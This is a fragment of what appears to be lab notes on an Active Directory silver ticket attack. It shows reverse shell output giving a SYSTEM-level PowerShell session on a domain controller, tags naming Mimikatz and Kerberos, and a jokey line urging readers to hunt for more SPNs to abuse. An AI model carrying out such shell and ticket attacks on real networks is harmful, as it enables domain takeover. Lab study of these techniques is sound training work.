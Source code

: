 * Receive your call back (2)

```
VERBOSE: Connection from [172.16.2.1] port  [tcp] accepted (source port 54307)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...
Windows PowerShell running as user DCORP-DC$ on DCORP-DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
dcorp-dc
PS C:\Windows\system32>
```

#### Tags

<pre>#!AD #!ActiveDirectory #!Windows #!PowerShell #!Mimikatz #!SilverTicket #!TGS #!Kerberos</pre>

### Attacks
* ???
	* Overview

* But you know what? We're always looking for more SPNs to abuse. So, look, next time you got a little downtime and you find yourself a little bored, play with some SPNs. You know what I'm sayin? See what you come up with okay? It's all good.
